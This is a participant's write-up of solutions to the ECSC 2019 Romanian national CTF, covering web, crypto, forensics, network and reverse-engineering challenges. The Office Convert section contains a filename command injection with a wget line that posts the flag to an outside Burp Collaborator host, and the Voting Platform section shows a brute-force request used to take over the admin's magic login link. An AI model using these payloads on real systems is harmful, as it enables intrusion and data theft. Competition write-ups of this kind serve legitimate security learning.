


ECSC 2019 - National Phase - Romania
============



Webcam (5pcts): Warmup
=======

Proof of Flag
-------------
`ECSC{74e2ded83ac18335f0c45419b29f8173eefb46dd21d21e5951e3b9b53947f2c7}`

Summary
------------
Flag is in the jquery file https://webcam.challs.cybersecuritychallenge.ro/js/jquery-3.3.1.slim.min.js

Proof of Solving
---------------
I entered the website. Then I tried admin:admin credentials. Alert, let’s look at the JS file. Opened DevTools. Flag is there in jquery.js

get puzzled! (50pcts): Web
=======

Proof of Flag
-------------
`ECSC{3400e9d1deef6a35d288c2ec8b8ddc03b4830eaba12c26b6f8bca9adcd83b9ef}`

Summary
------------
Some php tricks and imagination. Followed the path and saw the flag in source code.

Proof of Solving
---------------
I got to the page https://puzzled.challs.cybersecuritychallenge.ro/

Saw that error. I imagined the code to be something like this  `$_GET['show%00code#<script>$x="%00";</script>aaa=']`

So I tried the the param. Redirects, needs stop param (everything seen in Burp)

https://puzzled.challs.cybersecuritychallenge.ro/?show%2500code%23%3Cscript%3E$x%3d%22%2500%22%3b%3C/script%3Eaaa=1234&stop=

Then

https://puzzled.challs.cybersecuritychallenge.ro/?show%2500code%23%3Cscript%3E$x%3d%22%2500%22%3b%3C/script%3Eaaa=1234&stop=&flag_token_sada3edewdc32dwq=123

No luck. But it suggets flag_token_sad123a3edewdc32dwasd22343qds.php. Tried the file. Got redirect.

https://puzzled.challs.cybersecuritychallenge.ro/flag_token_sad123a3edewdc32dwasd22343qds.php/

Flag is in Source Code

Voting Platform (150pcts): Web
=======

Proof of Flag
-------------
`ECSC{64e6b8d6a3c45bdadf85b0a7b3bf33a78185613dd0ef9675dd02db2a11abc066}`

Summary
------------
Login magic link bruteforceable. <10000 requests. But there was a race condition, sending fast requests I could send one to me, one to admin, another to me, and then test just the ids between. I got to send ~24 requests to get the link.


Proof of Solving
---------------

Registered. Mail didn’t come. retry retry retry

Mail did come after a while.

Voted. Observed that your-vote has md5

Also got hint
```html
<!-- show the secret win code to admin user (id:1) -->
```


https://voting.challs.cybersecuritychallenge.ro/index.php/dashboard/your-vote/c4ca4238a0b923820dcc509a6f75849b

Got email of admin `sqe027adVn@bkmvenjrbhvuerb23.com`

what now?

looked around. observed in burp some i-am-old link. tried. magic login link.

```
5ca87d744
5ca87d759
5ca87d76d
5ca87d7c1
5ca87d775
5ca87d781
5ca87d795
5ca87d7a1
5ca87d7b9
5ca87d7c9
5ca87d02a
5ca87d03b
```

Seems bruteforceable.

Run burp intruder with
```http
POST /index.php/old-request HTTP/1.1
Host: voting.challs.cybersecuritychallenge.ro
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://voting.challs.cybersecuritychallenge.ro/index.php/i-am-old
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
DNT: 1
Connection: close

_token=xqECJlt3eF6feIQMbvOVaglQHs8FZJxjo3Izlcfo&email=§myemail%40gmail.com§
```

And the following wordlist

```
myemail@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
myemail@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
myemail@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
myemail@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
```

Got two close ids. Bruteforce between them. Got cookie for admin. Copied the cookie in browser and the flag was there. See picture above.


Office Convert (150pcts): Web
==========

Proof of Flag
-------------
`ECSC{98028539a362efecbde13ae4df924e02432555bb1f4730219938330651d84f35}`

Summary
------------
Command injection in upload `filename`. Some small limitations. Used `wget` to post flag to my burp collab.


Proof of Solving
---------------
Tried to upload an html with an iframe to my site. It worked. tried js, no. Iframe doesn't work properly, just sends request.

```accesslog
37.128.230.46 - - [06/Apr/2019:10:39:45 +0000] "OPTIONS / HTTP/1.1" 405 166 "-" "LibreOffice"
37.128.230.46 - - [06/Apr/2019:10:39:45 +0000] "HEAD / HTTP/1.1" 200 0 "-" "LibreOffice"
37.128.230.46 - - [06/Apr/2019:10:39:45 +0000] "GET / HTTP/1.1" 200 93 "-" "LibreOffice"
```

Then i tried everything. Found something about remote arbitrary file disclosure in LibreOffice. Tried that, didnt work.

Left it like that, got to work on other challenges.

Got back. https://github.com/BuffaloWill/oxml_xxe.git nothing. svg, xml xxe.

Reading the hint I figured I should think deeper how they process this. Well I already know it's a libre office convert. And allows lots of format. But what if the filename is used in the command? Let's try that.

```http
filename=`sleep 4`
```

It worked. I tried dig first with burp collaborator. It works.

Lets exfiltrate with dig. Too tedious.

Found out that curl wasn’t available. Also slashes didn’t work. A lot of tries later I came up with this.

```bash
$(find src | grep flag.js | head -n1 | xargs -I{} wget v0w0824vj4o195hog7gz3trvomuci1.burpcollaborator.net --post-data a={})
```

And I got

```http
POST / HTTP/1.1
User-Agent: Wget/1.19.4 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: v0w0824vj4o195hog7gz3trvomuci1.burpcollaborator.net
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 90

a=module.exports = ECSC{98028539a362efecbde13ae4df924e02432555bb1f4730219938330651d84f35};
```


Crypto Luck (150pts): Crypto
============

Proof of Flag
-------------
`ECSC{bab4d1bdea5baf2a5ce69c2fd7e4945edd39970bc0eb49ea390d58a7d24c3986}`

Summary
------------
Proof of work challenge. A random value was generated on the server. The player was required to have an input that matched the first 6 bytes of the hashed with sha1 random value. After 10 valid reports (on the same connection), I got the flag.



Proof of Solving
---------------
Already coded this at a different ctf last year. Just copied and updated the code. Required python2 and pwntools

```python
#!/usr/bin/env python2
from pwn import *
import hashlib
import re
import time
import itertools

def check(h, key):
    return h[0:6] == key

def hash(s, cipher):
    if cipher == 'sha1':
        return hashlib.sha1(s).hexdigest()
    elif cipher == 'md5':
        return hashlib.md5(s).hexdigest()

    raise ValueError('cipher not found %s' % cipher)

def break_hash(cipher, key):
    for i in xrange(0, 256**4):
        s = str(i)
        h = hash(s, cipher)
        if check(h, key):
            print "%s(%s) = %s" % (cipher, s, h)
            return s
        elif i & 1048575 == 1048575:
            log.info('try at %s' % s)

    raise ValueError('matching hash not found')

cipher = 'sha1'
while True:
    # nc 37.128.230.46 50041
    io = remote('37.128.230.46', 50041)

    i = 0
    while True:
        time.sleep(0.2)
        data = io.recv().strip()

        # sha1.hexdigest()[0:6]
        key = data[0:6]

        log.info(data)
        log.info('key = %s' % key)

        x = break_hash(cipher, key)
        io.sendline(x)

        i += 1
        log.info("count = %d" % i)

    io.interactive()
```


super_caesar (250pcts): Crypto
=====

Proof of Flag
-------------
`ECSC{BGtSheIosNMPWRqTABZcdYhkIeCHtgCB}`

Summary
------------

```
bcjac --- YnuNmQPGhQWqCXGUxuXnFVqrUVCUMhQdaHuCIrbDIcUqnKxbPORYTzVCDBlmAqtKnEJcpED --- UVQR
```

Start and stop are the first and last words. They provide the key for the lowercase chars and uppercase chars. This was bruteforceable too.

Proof of Solving
---------------
First thought it was Vigenere (too many points for simple caesar) and they just used Caesar in the name. Wasted a lot of time on that path.

Finally just tried to decode first key with caesar at https://www.dcode.fr/caesar-cipher

START and STOP. figured it would be lower chars, upper chars. Coded some python

```python
def main():
    s = bytearray(b'bcjac --- YnuNmQPGhQWqCXGUxuXnFVqrUVCUMhQdaHuCIrbDIcUqnKxbPORYTzVCDBlmAqtKnEJcpED --- UVQR')
    k1, s, k2 = s.split(b' --- ')

    for i in range(len(s)):
        c = s[i]
        if 65 <= c <= ord('Z'):
            c = 65 + ((c - 65) - 2) % 26
        else:
            c = 97 + ((c - 97) - 9) % 26
        s[i] = c

    print(s)

if __name__ == '__main__':
    main()
```

Got

```bash
➜ python main.py
bytearray(b'WelLdONEyOUhAVESolVeDThiSTASKyOurFlAGisBGtSheIosNMPWRqTABZcdYhkIeCHtgCB')
```

I was in the last 5 minutes and it didn’t work. Panicked. Tried like 5 variations and got it.


Alice (300pts): Crypto
=====

Proof of Flag
-------------
`ECSC{dc0eb76143e50fe3dbeb6383605de5ffa9fefe455caca597677eab7cbf0ad649}`

Summary
------------
It’s a programming challenge. Not a crypto challenge. Count chars for all 64 positions. If in the first half, pick the char that appeared just once. If in the second half, pick the char with 0 matches. Got flag.

Proof of Solving
---------------
```python
cnt = [
    [0 for _ in range(0, 16)] for _ in range(0, 64)
]

with open('Alice_replies.txt', 'r') as f:
    data = f.read().strip()

hashes = data.split("\n")
for h in hashes:
    for i, c in enumerate(h):
        c_ = int(c, 16)
        cnt[i][c_] += 1

flag = ''
for i in range(0, 64):
    possible = []
    for j, c in enumerate(cnt[i]):
        if i < 32 and c == 1:
            possible.append(j)
        elif i >= 32 and c == 0:
            possible.append(j)

    print("#%d: %s" % (i, repr(possible)))
    flag += '%x' % possible[0]

print("ECSC{%s}" % flag)
```


Online encryption (100pts): Forensics
======

Proof of Flag
-------------
`ECSC{dd545fbf12fd608daa8c201f50f95c8520bec9f744a3573b1dc0bc53ce019726}`

Summary
------------
It was a post request through HTTP (not secure). Between a lot of traffic data.


Proof of Solving
---------------

Downloaded the file. Looked through it with wireshark.

There was too much data so I filtered by http.

Saw some requests. Looked for POST request.

```
UlBGUHtxcTU0NXNvczEyc3E2MDhxbm44cDIwMXM1MHM5NXA4NTIwb3JwOXM3NDRuMzU3M28xcXAwb3A1M3ByMDE5NzI2fQ==
```

Used rot13(b64decode()) with CyberChef
```
https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)ROT13(true,true,13)&input=VWxCR1VIdHhjVFUwTlhOdmN6RXljM0UyTURoeGJtNDRjREl3TVhNMU1ITTVOWEE0TlRJd2IzSndPWE0zTkRSdU16VTNNMjh4Y1hBd2IzQTFNM0J5TURFNU56STJmUT09
```


Piet Mondrian (100pts): Misc
=========

Proof of Flag
-------------
`ECSC{e647c19e4fc7838bf764abbdcb0c1f08adca163cdadfb889bee5201fc4397e5d}`

Summary
------------
Piet is an esoteric language. piet.jpg was hiding some png images. Those were could be interpreted by piet and they would print out the flag.

Proof of Solving
---------------
Checked stegsolve, strings and some others.

Run binwalk. See some pngs.
```bash
binwalk -D 'png image:png' piet.jpg
```

Got the pngs. No idea what now. Searched for piet and secret online. Found https://www.bertnase.de/npiet/ . There’s a pretty neat hint on that page that says you should use gimp to resave images if they don’t work properly.

Got flag!

```bash
➜ ./bin/npiet ./p1.png | head -c 30
ECSC{e647c19e4fc7838bf7ECSC{e6%
➜ ./bin/npiet ./p2.png | head -c 30
64abbdcb0c1f08adca163cd64abbdc%
➜ ./bin/npiet ./p3.png | head -c 30
adfb889bee5201fc4397e5d}adfb88%
```


Victim (100pts): Network
===========

Proof of Flag
-------------
`ECSC{AC0DFD65CA16813A6AD68C4BA55F8C607496D93E2408EE0B5EF6F1B9ACCE0BC9}`

Summary
------------
Flag was hidden in some traffic between two private ips. One of them looks like a ftp server and the other is the client. The client retrieved some files from the server, including an archive with `Flag.txt`

Proof of Solving
---------------
Opened wireshark. Looked at http. Then ftp.

Then randomly with strings. Saw something interesting. Some FTP traffic that I wasn’t seeing with the ftp filter

```
(ip.src == 10.1.10.71 or ip.dst == 10.1.10.71) and data
```

Found some files. indecisive.jpg, some txt files and log.zip

zip file

```bash
➜ unzip log.zip
Archive:  log.zip
   skipping: Flag.txt                unsupported compression method 99
```

googleing around it says i can use 7z. but 7z asks for password.

remembering the description some authentication information will help you to capture the flag

```bash
➜ strings file.pcap | grep PASS
PASS mozilla@example.com
PASS mozilla@example.com
PASS VADPRDqid4TaB0r5a2B0n9wLp
PASS ftpuser
PASS mozilla@example.com
PASS password
```

Password `VADPRDqid4TaB0r5a2B0n9wLp` worked. `Flag.txt` contains the flag.


Unusual Communication (200pts): Network
========

Proof of Flag
-------------
`ECSC{5d0d4436ad7e07d5375948ad13746fe2987aa7fd7126dfdd47acedf89905a0a4}`

Summary
------------
An image was hidden in the section of ICMP requests. Image contained a password for a cisco router, encoded with something specific. “Cracked” the password with a tool, password was the flag.

Proof of Solving
---------------
Looked through with wireshark. Found some html. man page from ncat and one bin. Packet by packet extracted bin. Tedious. It was netcat binary...

Looked at icmp. Apparently icmp can send data and the server sends it back. more than 10 packets, How do we automate this?

enter tshark

```bash
tshark -r captura.pcapng -e data -Tfields '(icmp) && (ip.src == 10.10.10.1)' > data.hex
cat data.hex| xxd -r -p > img.png
```

Got an image

```
username admin password 7 03217838251474481E0D4D5144440A08532F7B732C666675465E425B0052080B040058051D44000000525302520F0C57550E53021702500C0A050A254A1650405542135B0D5037
```

Didn't know what that is. searched google for 142 char password. Nothing. searched for username admin password 7. Got something about cisco. Searched cisco password cracker

http://www.ifm.net.nz/cookbooks/passwordcracker.html

got flag!


global-cell (300pts): Network
============

Proof of Flag
-------------
`ECSC{50fb4a9bee63b51141c2b32e42251d1f88104731d1a7b73ff9750626227d7f5a}`

Summary
------------
The pcap was leaking that about the location in the form of the closest cell tower. The area code of the city hashed with sha256 was the flag.

Proof of Solving
---------------
Got pcap. Searched with wireshark. Too much data.

```
strings challenge.pcapng
```

Scrolled through it until I found something interesting. Found some gcellid and Paris. googled for global cell id. Found this website https://cellidfinder.com/mcc-mnc, searched for france - MCC 208.

```bash
strings challenge.pcapng | grep 208
```

used https://opencellid.org/ with
```
{'INFO_CELL_GLOBAL_ID': {'sector': 2, 'cell_id': 1106, 'cell_gid': u'208f2075ee4025', 'bts': 69, 'mcc': 208, 'lac': 22510, 'mnc': 20}}
```

got to city of Lanton, France. https://en.wikipedia.org/wiki/Lanton,_Gironde

```
INSEE/Postal code
33229 /33138
```

Wasn't sure which. Tested both.`ECSC{sha256('33229')}` is the flag.


guessing-game (100pts): Revexp
=========

Proof of Flag
-------------
`ECSC{9120848337A9760DDAE532BAF3D7D8E7032DFFFE6DD3B323A5F5CA0455B9C79C}`

Summary
------------
Run local. Get answer. Send to remote server. Repeat two or three times (got it the first time).


Proof of Solving
---------------
First I tried decompiling and stuff. Saw it uses rand and srand with time.

Finally just run local, got answer, sent to server.

Script requires pwntools

```python
from pwn import *
import sys
import time

program_name = './a.out'

remote_server = '37.128.230.46'
PORT = 50021
if __name__ == "__main__":
    p = process(program_name)

    data = p.recvline()
    log.info(data)
    p.sendline('a')
    data = p.recvline()
    log.info(data)
    p.sendline('a')

    data = p.recvuntil('Try harder :(')
    log.info(data)
    answer = int(data.split('The answer was: ')[1].split('.')[0])

    p = remote(remote_server, PORT)

    data = p.recvline()
    log.info(data)
    p.sendline('a')
    data = p.recvline()
    log.info(data)
    p.sendline(str(answer))

    data = p.recvline()
    log.info(data)
    data = p.recvline()
    log.info(data)
```


Checker (150pts): Revexp
======

Proof of Flag
-------------
`ECSC{79e17ba7189bc35bcaca6b8bcc263f8a7ed672ada400be4394fa7aad74e3af08}`

Summary
------------
It’s a python3 script bundled with pyinstaller. Get files and decompile the python script. Flag is `ECSC{sha256(username:password)}`

Proof of Solving
---------------
Looked around with radare2. Not a classic binary

gdb all the way. Saw something about PKG in registers. I thought of packers. Tried binwalk. Lots of archives.

It prints `I do not know`

```bash
➜ grep -r 'do not know'
Binary file _checker.extracted/B493 matches
```

Used strings. Looks like python. Searching for python packers. Something about pyinstaller on google. Let's try it.

I first tried the version for python 2. Which didn't work. Then by looking through the extracted files I figured out that it must be python3 and it surely is PyInstaller. (some paths in the archives suggests it strongly)

So I tried again with the version for python3. The archive visualiser worked. extracted 1 (which I already extracted with binwalk, but now I was sure).

Tried uncompyle6. Didn't work. Found some website that worked. https://python-decompiler.com/

It says flag is in `ECSC{sha256(username:password)}`  form. But hashed with md5 password or not?

```python
username = decode(decode(decode(rot13(('').join(map(str, username))))))
password = str.encode(decode(decode(rot13(unquote(decode(('').join(map(str, password))))))))
print('ECSC{%s}' % hashlib.sha256(('%s:%s' % (username, password)).encode('utf8')).hexdigest())
password = md5_to_hex(md5(password))
print('ECSC{%s}' % hashlib.sha256(('%s:%s' % (username, password)).encode('utf8')).hexdigest())
```

It was the second one. Hashed.

